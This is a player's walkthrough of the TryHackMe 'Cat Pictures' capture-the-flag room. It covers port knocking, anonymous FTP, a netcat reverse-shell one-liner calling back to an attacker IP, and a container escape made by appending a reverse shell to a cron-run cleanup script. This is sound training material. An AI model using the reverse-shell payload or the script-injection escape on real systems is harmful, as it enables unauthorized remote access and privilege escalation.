# Cat Pictures CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Cat Pictures** CTF challenge on [TryHackMe](https://tryhackme.com/room/catpictures). 
---

after scannig we see open ports: 22, 4420, 8080



on port 4420 we see some text about internal shell so might need nc to connect to it 



using `nc $IP 4420` to connect to port 4420



we need some password to proceed

on port 8080 we see some fourm with 1 post



after looking at the post we see `magic numbers` that we need to knock into 



we can use 

```
knock $IP 1111 2222 3333 4444
```



after knocking we see additional ftp port 21

we can login to ftp as anonymous and we can grab a note.txt file



from the note we found a password do shell on port 4420



we dont have real shell but we can run few commands



by looking into /home directory we found some executable but we need better shell





we can use this reverse shell payload 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.14.X.X 4444 >/tmp/f
```

now we can run this script, we need another password



we can use nc to send the file to analyze it

by looking at the output of strings commands on the file we see some string that might be a password



now we can run the script to get the ssh private key





we can login as catlover via ssh

weird we login as catlover but already got root flag, we are in docker container





we see command history in .bash_history, we see /opt/clean/clean.sh so it might be our escape route



we add reverse shell to /opt/clean/clean.sh and then we wait for hit



we got hit with shell and we can grab seconde flag



# MACHINE PWNED
